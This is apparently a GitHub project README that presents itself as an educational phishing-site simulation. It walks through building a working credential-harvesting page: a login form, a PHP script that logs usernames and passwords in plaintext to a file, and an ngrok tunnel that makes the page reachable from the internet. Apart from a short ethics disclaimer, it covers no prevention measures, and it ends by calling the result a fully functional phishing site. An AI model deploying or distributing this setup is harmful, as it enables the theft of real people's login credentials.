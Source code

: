 # **Project Documentation: Simulation of a Phishing Website**

## **Project Description**

This project is a simulation of a phishing website designed to study phishing methods and prevent such attacks. The project uses **XAMPP** to run a local server, **Ngrok** to publish the server online, and **Webhook** mechanisms to transfer data from an HTML form to the server.

---

## **Project Goals**

1. Demonstrate how phishing websites work.
    
2. Study data collection methods using HTML and PHP.
    
3. Explore ways to prevent phishing attacks, including setting up web filters, using HTTPS, and handling data securely.
    
4. Educate cybersecurity professionals through practical exploration of phishing mechanisms.
    

---

## **Technologies Used**

- **XAMPP:** Local web server for running PHP scripts.
    
- **Ngrok:** A tool to publish the local server online.
    
- **Webhook:** Mechanism to transfer data between the HTML form and the server in real-time.
    
- **HTML:** For creating the user interface (login form).
    
- **PHP:** For processing the data submitted via the form.
    

---

## **Steps for Developing the Phishing Website**

### **Step 1. Installing XAMPP**

**Purpose:**  
XAMPP provides a local server to process PHP scripts and test web applications. Without XAMPP, it is not possible to run a server to receive and process data.

**Steps:**

1. Download XAMPP from the official website: [https://www.apachefriends.org/](https://www.apachefriends.org/).
    
2. Install XAMPP on your computer by following the installer instructions.
    
3. Start XAMPP and activate the **Apache** module.
    

---

### **Step 2. Creating the Phishing HTML Page**

**Purpose:**  
The HTML page serves as the interface for users to input their data. It is a key component for simulating a phishing attack.

**Steps:**

1. Create an HTML file `index.html` with a login form. Here is a sample code:
    
    ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Login Page</title>
    </head>
    <body>
        <form action="http://localhost/site/send_email.php" method="POST">
            <input type="text" name="username" placeholder="Enter your username" required>
            <input type="password" name="password" placeholder="Enter your password" required>
            <button type="submit">Submit</button>
        </form>
    </body>
    </html>
    ```
    
2. Save the file in the `htdocs` folder within the XAMPP directory. For example: `C:\xampp\htdocs\site`.
    

---

### **Step 3. Writing the PHP Script**

**Purpose:**  
The PHP script processes the data submitted from the HTML form and saves it to a log file.

**Steps:**

1. Create a PHP file `send_email.php`:
    
    ```
    <?php
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $username = $_POST['username'];
        $password = $_POST['password'];
    
        // Save the data to a log file
        $log_file = 'log.txt';
        $log_data = "Username: $username, Password: $password\n";
        file_put_contents($log_file, $log_data, FILE_APPEND);
    
        echo "Data successfully received.";
    } else {
        echo "No data to process.";
    }
    ?>
    ```
    
2. Save the file `send_email.php` in the same directory as the HTML file.
    

---

### **Step 4. Setting Up Ngrok**

**Purpose:**  
Ngrok makes the local server accessible online, enabling external users to access the phishing page.

**Steps:**

1. Download Ngrok from the official website: [https://ngrok.com/](https://ngrok.com/).
    
2. Install Ngrok on your computer and authenticate with the provided token.
    
3. Start the tunnel using the command:
    
    ```
    ngrok http 80
    ```
    
4. Copy the generated HTTPS URL (e.g., `https://a6c9-78-29-192-45.ngrok-free.app`).
    
5. Replace the `action` in the HTML form code with this URL:
    
    ```
    <form action="https://a6c9-78-29-192-45.ngrok-free.app/send_email.php" method="POST">
    ```
    

---

### **Step 5. Testing**

**Purpose:**  
Testing ensures the project works correctly and data is recorded in the log file.

**Steps:**

1. Open the public URL provided by Ngrok in a browser.
    
2. Enter test data in the form (username and password).
    
3. Check the `log.txt` file in the project directory. The data should be recorded in the following format:
    
    ```
    Username: test_user, Password: test_password
    ```
    

---

## **Potential Improvements**

1. **Add a Database:**
    
    - Use MySQL instead of a text file for data storage.
        
2. **Analytics:**
    
    - Implement scripts to analyze collected data.
        
3. **Admin Interface:**
    
    - Create a web interface to view and manage logs.
        
4. **Integration with Security Tools:**
    
    - Develop a scanner to detect phishing activity based on the simulation.
        

---

## **Ethical Use**

- **Purpose of the Project:** This project is intended solely for educational and analytical purposes. It must not be used for real phishing attacks.
    
- **Consent of Participants:** Any testing of the project should be conducted only with user consent.
    
- **Data Protection:** All test data must be anonymized and protected from leaks.
    

---

## **Conclusion**

This project serves as a learning tool to understand how phishing attacks work and how to use this knowledge to prevent them. Using XAMPP, Ngrok, and Webhook mechanisms, you can create a fully functional phishing site for testing and developing protective solutions.